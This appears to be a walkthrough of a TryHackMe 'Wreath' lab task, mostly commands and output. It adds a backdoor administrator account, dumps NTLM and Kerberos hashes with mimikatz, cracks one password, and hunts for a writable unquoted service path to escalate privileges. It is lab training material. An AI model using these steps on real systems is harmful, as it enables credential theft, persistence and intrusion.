

# TryHackMe [Wreath](https://www.tryhackme.com/room/wreath) Task 20
### References
* DarkSec. (2021). TryHackMe Wreath Official Walkthrough Task 21: Git Server - Stabilization & Post Exploitation [YouTube Video]. In YouTube. https://youtu.be/GOOYZCX6yY4
## Stabilization
* Add a new Windows user with Administrator privileges:
```
PS C:\GitStack\gitphp> net user AppleGamer22 WreathAG22 /add
The command completed successfully.
PS C:\GitStack\gitphp> net localgroup Administrators AppleGamer22 /add
The command completed successfully.
PS C:\GitStack\gitphp> net localgroup "Remote Management Users" AppleGamer22 /add
The command completed successfully.
PS C:\GitStack\gitphp> net user AppleGamer22
User name                    AppleGamer22
Full Name                    
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            24/04/2021 04:47:46
Password expires             Never
Password changeable          24/04/2021 04:47:46
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   Never

Logon hours allowed          All

Local Group Memberships      *Administrators       *Remote Management Use
                             *Users                
Global Group memberships     *None                 
The command completed successfully.
```
## What is the Administrator password hash?
1. Run `xfreerdp /v:10.200.100.150 /u:AppleGamer22 /p:WreathAG22 +clipboard /dynamic-resolution /drive:/usr/share/windows-resources,share`
2. Open Command Prompt with Administrator privileges:
```
C:\Windows\system32>\\tsclient\share\mimikatz\x64\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

672     {0;000003e7} 1 D 20189          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;000912ef} 2 F 2102726     GIT-SERV\AppleGamer22   S-1-5-21-3335744492-1614955177-2693036043-1005  (15g,24p)       Primary
 * Thread Token  : {0;000003e7} 1 D 2137719     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)

mimikatz # lsadump::sam
Domain : GIT-SERV
SysKey : 0841f6354f4b96d21b99345d07b66571
Local SID : S-1-5-21-3335744492-1614955177-2693036043

SAMKey : f4a3c96f8149df966517ec3554632cf4

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 37db630168e5f82aafa8461e05c6bbd1

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 68b1608793104cca229de9f1dfb6fbae

* Primary:Kerberos-Newer-Keys *
    Default Salt : WIN-1696O63F791Administrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 8f7590c29ffc78998884823b1abbc05e6102a6e86a3ada9040e4f3dcb1a02955
      aes128_hmac       (4096) : 503dd1f25a0baa75791854a6cfbcd402
      des_cbc_md5       (4096) : e3915234101c6b75

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : WIN-1696O63F791Administrator
    Credentials
      des_cbc_md5       : e3915234101c6b75

RID  : 000003e9 (1001)
User : Thomas
  Hash NTLM: 02d90eda8f6b6b06c32d5f207831101f

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 03126107c740a83797806c207553cef7

* Primary:Kerberos-Newer-Keys *
    Default Salt : GIT-SERVThomas
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 19e69e20a0be21ca1befdc0556b97733c6ac74292ab3be93515786d679de97fe
      aes128_hmac       (4096) : 1fa6575936e4baef3b69cd52ba16cc69
      des_cbc_md5       (4096) : e5add55e76751fbc
    OldCredentials
      aes256_hmac       (4096) : 9310bacdfd5d7d5a066adbb4b39bc8ad59134c3b6160d8cd0f6e89bec71d05d2
      aes128_hmac       (4096) : 959e87d2ba63409b31693e8c6d34eb55
      des_cbc_md5       (4096) : 7f16a47cef890b3b

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : GIT-SERVThomas
    Credentials
      des_cbc_md5       : e5add55e76751fbc
    OldCredentials
      des_cbc_md5       : 7f16a47cef890b3b

mimikatz #
```

**Answer**: `37db630168e5f82aafa8461e05c6bbd1`
## What is the NTLM password hash for the user `Thomas`?
**Answer**: `02d90eda8f6b6b06c32d5f207831101f`
## What is `Thomas`' password?
* Use [CrackStation](https://crackstation.net/):

**Answer**: `i<3ruby`

```
C:\xampp\htdocs\resources\uploads>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
whoami /groups
whoami /groups

GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account           Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288
C:\xampp\htdocs\resources\uploads>wmic service get name,displayname,pathname,startmode | findstr /v /i "C:\Windows"

wmic service get name,displayname,pathname,startmode | findstr /v /i "C:\Windows"
DisplayName                                                                         Name                                      PathName                                                                                    StartMode  
Amazon SSM Agent                                                                    AmazonSSMAgent                            "C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe"                                          Auto       
Apache2.4                                                                           Apache2.4                                 "C:\xampp\apache\bin\httpd.exe" -k runservice                                               Auto       
AWS Lite Guest Agent                                                                AWSLiteAgent                              "C:\Program Files\Amazon\XenTools\LiteAgent.exe"                                            Auto       
LSM                                                                                 LSM                                                                                                                                   Unknown    
Mozilla Maintenance Service                                                         MozillaMaintenance                        "C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"                 Manual     
NetSetupSvc                                                                         NetSetupSvc                                                                                                                           Unknown    
Windows Defender Advanced Threat Protection Service                                 Sense                                     "C:\Program Files\Windows Defender Advanced Threat Protection\MsSense.exe"                  Manual     
System Explorer Service                                                             SystemExplorerHelpService                 C:\Program Files (x86)\System Explorer\System Explorer\service\SystemExplorerService64.exe  Auto       
Windows Defender Antivirus Network Inspection Service                               WdNisSvc                                  "C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2011.6-0\NisSrv.exe"               Manual     
Windows Defender Antivirus Service                                                  WinDefend                                 "C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2011.6-0\MsMpEng.exe"              Auto       
Windows Media Player Network Sharing Service                                        WMPNetworkSvc                             "C:\Program Files\Windows Media Player\wmpnetwk.exe"                                        Manual
C:\xampp\htdocs\resources\uploads>sc qc SystemExplorerHelpService
sc qc SystemExplorerHelpService
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: SystemExplorerHelpService
        TYPE               : 20  WIN32_SHARE_PROCESS 
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\Program Files (x86)\System Explorer\System Explorer\service\SystemExplorerService64.exe
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : System Explorer Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
C:\xampp\htdocs\resources\uploads>powershell "get-acl -Path 'C:\Program Files (x86)\System Explorer' | format-list"
powershell "get-acl -Path 'C:\Program Files (x86)\System Explorer' | format-list"


Path   : Microsoft.PowerShell.Core\FileSystem::C:\Program Files (x86)\System Explorer
Owner  : BUILTIN\Administrators
Group  : WREATH-PC\None
Access : BUILTIN\Users Allow  FullControl
         NT SERVICE\TrustedInstaller Allow  FullControl
         NT SERVICE\TrustedInstaller Allow  268435456
         NT AUTHORITY\SYSTEM Allow  FullControl
         NT AUTHORITY\SYSTEM Allow  268435456
         BUILTIN\Administrators Allow  FullControl
         BUILTIN\Administrators Allow  268435456
         BUILTIN\Users Allow  ReadAndExecute, Synchronize
         BUILTIN\Users Allow  -1610612736
         CREATOR OWNER Allow  268435456
         APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES Allow  ReadAndExecute, Synchronize
         APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES Allow  -1610612736
         APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES Allow  ReadAndExecute, Synchronize
         APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES Allow  -1610612736
Audit  : 
Sddl   : O:BAG:S-1-5-21-3963238053-2357614183-4023578609-513D:AI(A;OICI;FA;;;BU)(A;ID;FA;;;S-1-5-80-956008885-341852264
         9-1831038044-1853292631-2271478464)(A;CIIOID;GA;;;S-1-5-80-956008885-3418522649-1831038044-1853292631-22714784
         64)(A;ID;FA;;;SY)(A;OICIIOID;GA;;;SY)(A;ID;FA;;;BA)(A;OICIIOID;GA;;;BA)(A;ID;0x1200a9;;;BU)(A;OICIIOID;GXGR;;;
         BU)(A;OICIIOID;GA;;;CO)(A;ID;0x1200a9;;;AC)(A;OICIIOID;GXGR;;;AC)(A;ID;0x1200a9;;;S-1-15-2-2)(A;OICIIOID;GXGR;
         ;;S-1-15-2-2)
```
